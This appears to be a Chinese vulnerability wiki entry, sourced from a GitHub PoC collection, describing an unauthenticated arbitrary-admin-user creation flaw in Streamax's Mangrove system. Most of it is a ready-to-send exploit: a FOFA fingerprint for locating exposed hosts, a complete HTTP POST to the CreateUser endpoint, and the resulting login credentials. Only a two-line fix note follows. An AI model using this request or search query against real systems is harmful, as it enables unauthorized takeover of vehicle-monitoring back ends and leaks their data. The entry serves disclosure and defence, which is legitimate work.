

# 深圳市锐明技术股份有限公司Mangrove系统存在任意用户添加漏洞

# 漏洞描述

Mangrove系统 /Mvsp/RoleUserInfo/Default.do 接口存在任意用户添加漏洞，未经身份验证的远程攻击者可以利用此漏洞添加任意管理员用户，导致攻击者可直接管理后台，造成信息泄露，使系统处于极不安全的状态。

# 影响版本

Mangrove系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash="564025728"

POC/EXP：

POST /Mvsp/RoleUserInfo/Default.do?Action=CreateUser&Type=post&DataType=Text&Guid=1721290869914 HTTP/1.1
Host: 127.0.0.1
Content-Length: 243
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MVSP.U=VUlEPTEmVU49YWRtaW4yJkdJRD0xJlJJRD0x;
Connection: close

UserId=&GroupPower=1&VehiclePower=&UserName=test123&RoleId=1&GroupId=1&ValidTime=&VideoTime=1&Enable=1&TelNo=18181818181&Flow=&WarningFlow=&RealFlow=&MonthlyTime=&Description=&Email=&Password=cf2004f91f001ff3d422d50ff009c4df

使用账号密码登录系统：
test123/qQq@123456
或者
test123/cf2004f91f001ff3d422d50ff009c4df
版本新的就是上面这个，版本低的就是下面这个

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
